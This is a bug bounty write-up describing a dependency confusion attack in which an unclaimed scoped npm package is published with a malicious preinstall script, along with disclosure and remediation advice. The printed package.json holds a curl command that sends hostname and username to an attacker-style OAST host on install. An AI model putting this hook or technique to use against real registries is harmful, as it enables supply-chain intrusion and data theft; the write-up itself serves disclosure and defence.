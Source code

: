 
# 💥 $2,500 Bug Bounty Write-Up: RCE via Unclaimed Node Package

**Author:** Fuleki Ioan  
**Vulnerability Type:** Remote Code Execution (RCE)  
**Exploit Technique:** Dependency Confusion  
**Reward:** $2,500  
**Write-Up Date:** Sep 2024  
**Original Post:** [Medium Article](https://medium.com/@p0lyxena/2-500-bug-bounty-write-up-remote-code-execution-rce-via-unclaimed-node-package-6b9108d10643)

---

## Discovery: Clue in the Source Code

While reviewing JavaScript code from the target, the author observed this suspicious require statement:

```js
require("@confidential-company/package-name");
```

- This indicated a **scoped internal package**.
- The package was **not available on npmjs.com**, suggesting it might only exist in the company’s private registry.

---

## Vulnerability: Dependency Confusion
**Dependency Confusion** happens when:

1. A developer references a private/internal package in source code.
2. The package manager (like `npm`) is configured to pull from both internal and public registries.
3. If the internal package is **not published to the public registry**, an attacker can **publish a malicious version with the same name**.
4. During `npm install`, **the malicious version may be installed**, leading to **code execution** on the target’s CI/CD or dev machines.

### In This Case:

- The package `@confidential-company/package-name` was **unclaimed on npm**.
- The author **registered it on npm** and inserted a **malicious preinstall script**.

---

## Exploit Code: Malicious `package.json`

![alt text](/imgs/RCEViaUnClaimedNodePackage1.png)

The attacker published the following package:

```json
{
  "name": "@confidential-company/package-name",
  "version": "1.0.0",
  "description": "internal module",
  "scripts": {
    "preinstall": "curl --data-urlencode \"info=$(hostname && whoami)\" http://attacker.oast.fun"
  }
}
```

This sends sensitive environment info (hostname + user) to a **Burp Collaborator/OAST** server on install.

---

## Execution: Detecting the Impact

- Once the package was published, **HTTP and DNS requests flooded in** from multiple environments.
- The requests included:
  - Hostnames
  - Usernames
  - IP addresses

This confirmed that the package was **being installed on actual production/dev machines** of the company.

![alt text](/imgs/RCEViaUnClaimedNodePackage2.png)

![alt text](/imgs/RCEViaUnClaimedNodePackage3.png)

---

## Report & Bounty

- The researcher captured **over 150 events**.
- Filtered bot traffic and identified **real IPs tied to company infrastructure**.
- Reported immediately through the responsible disclosure program.
- Within 7 days: Triaged, validated, and awarded the maximum bounty of **$2,500**.

---

## Lessons & Remediation

### How to Prevent Dependency Confusion:

1. **Always publish all internal packages (even empty) to public registries** to block malicious claims.
2. **Lock package registries** using `.npmrc`:
   ```ini
   registry=https://registry.internal.company/
   ```
3. **Use scoped registries** (`@scope`) and enforce install rules.
4. **Audit dependency sources** regularly.

---

## Conclusion

This case illustrates how **a single unclaimed package name** can lead to **full remote code execution** across an organization's infrastructure. Dependency Confusion remains one of the **most overlooked but devastating vulnerabilities** in modern development pipelines.

